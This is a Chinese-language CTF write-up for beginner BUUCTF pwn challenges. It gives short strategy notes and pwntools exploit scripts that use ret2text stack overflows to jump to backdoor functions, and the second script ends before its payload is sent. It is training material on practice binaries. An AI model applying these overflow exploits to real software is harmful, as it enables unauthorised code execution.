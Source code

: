 ```yaml
---
title: BUUCTF-wp
date: 2024-05-29 23:39:06
category: wp
tags: 
---
```


> BUUCTF的部分wp
> 后面的有时间再做

# pwn
## test_your_nc
### 思路
简单题，直接nc

## rip
### 思路
程序中给了后门，直接ret2text，注意一下栈平衡

### exp
```python
from pwn import *

#p = remote("node5.buuoj.cn",29672)
p = process("pwn1")

gdb.attach(p)

backdoor = 0x401186
ret = 0x401185

payload = b'a'*15+b'b'*8+p64(backdoor)

p.sendline(payload)

p.interactive()
```

## warmup_csaw_2016
### 思路
ret2text简单题

### exp
```python
from pwn import *

p = remote("node5.buuoj.cn",25110)
#p = process("./warmup_csaw_2016")

#gdb.attach(p)

p.recvuntil(b"WOW:")
back = p.recv(8)
back = int(back,16)
payload = b'a'*(0x40+0x8)+p64(back)

```